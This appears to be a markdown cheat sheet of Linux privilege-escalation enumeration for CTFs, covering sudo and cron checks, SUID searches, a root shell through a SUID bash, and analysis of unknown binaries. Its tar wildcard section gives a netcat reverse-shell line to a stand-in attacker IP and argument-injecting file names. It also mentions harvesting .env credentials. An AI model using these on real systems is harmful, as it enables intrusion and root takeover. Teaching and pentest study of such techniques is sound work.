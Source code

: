 
# Linux Enumeration Techniques for PrivEsc

## Investigation of sudo privileges for the current user

```bash
sudo -l
```
## Investigation of the current user's cron jobs

```bash
crontab -l
```

## `find` command

### Finding SUID files

```bash
find / -perm -u=s -type f 2>/dev/null
```

**NOTE**: *enlightenment_sys* is a famous vulnerable SUID binary and is commonly found in CTFs.

**NOTE**: If a "bash" ELF file has SUID bit set, then run with `-p` option **to ensure that the permissions are retained**.

```bash
-rwsr-sr-x 1 root  root  1113504 Jul 22  2020 .suid_bash

# Running suid_bash without -p

./.suid_bash

.suid_bash-4.4$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

# Running suid_bash WITH -p

./.suid_bash -p

.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)

.suid_bash-4.4# whoami
root
```

## Methodology for exploiting an uncommon ELF file that could be run with elevated privileges.

- While enumerating a system for privilege escalation, we might stumble upon an ELF file that has the `SUID` bit set or could be run as `sudo`.

- Understanding the functionality of such a binary file takes a little extra effort than a script that has the `SUID` bit set or could be run as `sudo`.

- The first step to be performed on such an executable would be to run the command `strings` on it. **The output would contain the potential commands, directory paths, print messages etc.**, utilized by the binary which would help us get an idea about its functionality.

- The second step would be to **run the executable itself (with elevated privileges)**. The output generated during the file's exceution and its operation should give us a better understanding of the file's functionality.

- It is common to find ELF files (especially the ones that deal with some sort of automation or backup task) utilize binaries such as `tar`, `7za`, etc., as part of their intended functionality. Then we should **check if the way those binaries have been utilized facilitates PrivEsc**. For e.g. the utilization of the wildcard character `*` in a `tar` command facilitates arbitrary code execution which can be achieved by running the following commands in the working directory of the tar command followed by the excution of the vulnerable ELF file containing the `tar` command.

```bash
# Contents of shell.sh : rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER'S IP> 9005 >/tmp/f

echo "" > "--checkpoint-action=exec=sh shell.sh"; echo "" > --checkpoint=1

# The above commands help the tar command to run the file shell.sh after the first file is archived.
```


## The `.env` file

Usually present in the application's root directory (or within a sub directory). May contain very useful key-value pairs like DB username, DB password etc.


## Sockets Investigation

### ss

```bash
ss -tulpn
```

`-t` - Displays TCP sockets

`-u` - Displays UDP sockets

`-l` - Displays only listening sockets

`-p` - Shows the process using the socket

`-n` - Doesn't resolve service names

## Check the email inboxes of users

```bash
cd /var/mail

ls -la #Lists all the users' mailbox files (if any)
```

